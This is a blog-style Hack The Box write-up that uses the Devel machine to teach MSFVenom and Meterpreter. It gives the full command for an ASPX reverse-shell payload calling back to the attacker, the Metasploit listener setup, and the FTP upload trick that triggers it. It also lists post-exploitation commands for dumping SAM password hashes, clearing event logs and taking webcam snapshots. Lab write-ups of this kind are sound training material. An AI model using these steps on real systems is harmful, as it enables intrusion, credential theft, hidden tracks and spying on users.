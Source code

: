 ```yaml
---
title:      "MSFVenom and Meterpreter: The basics"
date:       2018-09-11 12:20:20 +0100
tags:       HackTheBox
category:   Cybersecurity
comment:    header sizes are 2000x750
header:
  image:	/assets/images/2018-09-11-msfvenom/header.jpg
  teaser:	/assets/images/2018-09-11-msfvenom/header.jpg
  caption:	"Photo credit: [**Unsplash**](https://unsplash.com)"
---
```


I just recently successfully gained root (or rather, Administrator, because it's a Windows box) on the **Devel** machine in [Hack The Box](https://hackthebox.eu).

The machine itself is very easy, and there are lots of writeups on it, I'm sure, so this won't be another one. However, one thing it made really clear and simple was learning **MSFVenom** and getting to use reverse shells in a realistic scenario. Therefore, I'll use the machine as an example to illustrate the usage of MSFVenom.

In this case, the machine is running IIS, with an FTP server that allows anonymous uploads, and an HTTP server running on the traditional port 80.

This is where MSFVenom comes in handy: We can upload arbitrary files and trigger their execution.

Some information:
- The victim's IP is `10.10.10.5`
- Our IP is `x.y.z.w`
- We have no firewalls blocking inbound connections (this is a requirement if you want to have reverse shells connect back to you)

## The reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.y.z.w LPORT=1337 -f aspx > devel.aspx
```

This:
- Sets the payload to be a reverse TCP meterpreter shell (for Metasploit), for Windows machines. You can query the full list of payloads by running `$ msfvenom -l payloads`
- Sets our IP to be `x.y.z.w` (the victim machine must be able to reach us on that IP)
- Sets our listening port to be `1337` (remember this, you'll need it to configure the listening end of the reverse shell: Metasploit)
- Sets the format to be ASPX, C#
- Creates a file called `devel.aspx` in the current directory

## Configure Metasploit

Now we have to configure Metasploit to listen to remote connections, using the same parametres given to MSFVenom.

(The following commands are to be executed sequentially in a Metasploit Console)

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost x.y.z.w
set lport 1337
set ExitOnSession false
exploit -j
```

Metasploit is now ready to accept connections to port `1337` and the specified IP address (in this case `x.y.z.w`)

## Triggering the reverse shell

In this case, now that we have the `devel.aspx` file, we have to upload it via FTP. Because the FTP is pointing to the same directory as the HTTP server, we can just drop it there, and then navigate to `http://10.10.10.5/devel.aspx`. A blank page will appear, but if we did everything correctly, a new line will appear in the listening console. It will say something similar to: `Meterpreter session 1 opened (x.y.z.w:1337 -> 10.10.10.5:49160)`.

At this point, we can list sessions by issuing `sessions -l` at the Metasploit console, and attach to the newly opened session by running `sessions <SESSION ID>`, in this case, the session ID is 1, so `sessions 1` attaches correctly to the shell.

## Meterpreter

Now we're in a Meterpreter Windows session, we can issue the following commands (note that to specify the folder separator in Meterpreter, you must use double slashes `//` and not the standard Windows backslash `\`):
- `ls` or `dir`: lists the files and directories
- `cd`: changes directory, behaves just like Linux systems
- `pwd`: shows the full path for the current directory, similar to Linux as well
- `background`: sends the Meterpreter session to the background, and resumes your Metasploit session, you can always return by reattaching the session with `sessions <SESSION ID>`
- `cat`: prints text files to the screen, like the Linux command of the same name
- `download` or `upload`: respectively download or upload files from/to the machine
- `getuid`: returns the user the reverse shell is running with, useful to let us know if we gained Administrator access
- `clearev`: clears the *Application*, *System* and *Security* logs for the machine
- `execute`: runs an arbitrary command given as the argument
- `hashdump`: dumps the contents of the *SAM* database
- `idletime`: displays how much time has passed since the user was active
- `ipconfig`: retrieves the network interface configuration
- `ps`: like the Linux tool of the same name, displays a list of running processes in the victim machine
- `shell`: invokes a standard shell
- `webcam_list`: displays currently connected and configured web cams on the victim machine
- `webcam_snap`: takes a picture from a connected camera, and saves it to the current working directory with a random filename

